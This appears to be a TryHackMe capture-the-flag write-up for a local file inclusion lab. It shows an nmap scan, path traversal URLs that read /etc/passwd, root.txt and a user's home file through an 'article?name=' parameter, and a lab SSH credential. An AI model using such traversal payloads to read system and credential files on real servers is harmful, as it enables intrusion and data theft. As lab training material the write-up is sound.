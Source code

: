 # TryHackMe : LFI

## Initial Recon


```
sudo nmap -sS -sC -sV 10.10.94.52 > rec_ini
```

![](Pictures/rec_ini.png)

1) ssh port 22 open</br>
2) http port 80 open


## Finding the LFI Vectors 

If we chek the article sections, we find that there is a `/article?name=` parameter which takes the names of the file in order to display them.

![](Pictures/article.png)


If we try to pass `../../../../etc/passwd` to the parameter, we get the /etc/passwd file.

```
http://10.10.184.69/article?name=../../../../etc/passwd
```

![](Pictures/etc_passwd.png)

## Reading other files using LFI

We know that the location of root.txt should be in `/root/root.txt`. So we try the following payload : 

```
http://10.10.184.69/article?name=../../../../root/root.txt
```

This will give us the root.txt

![](Pictures/root.png)

## Using the /etc/passwd file

If we properly check the /etc/passwd file, we see that there is a use called `falconfeast`. Also the ssh password for the user is give in comments.

```
falconfeast:rootpassword
```

From here we can either login to ssh as falconfeast or we can use the LFI to read `user.txt`.

### Using LFI

We can read user.txt if we visit `/home/falconfeast/user.txt`

```
http://10.10.184.69/article?name=../../../../home/falconfeast/user.txt
```

![](Pictures/user.png)



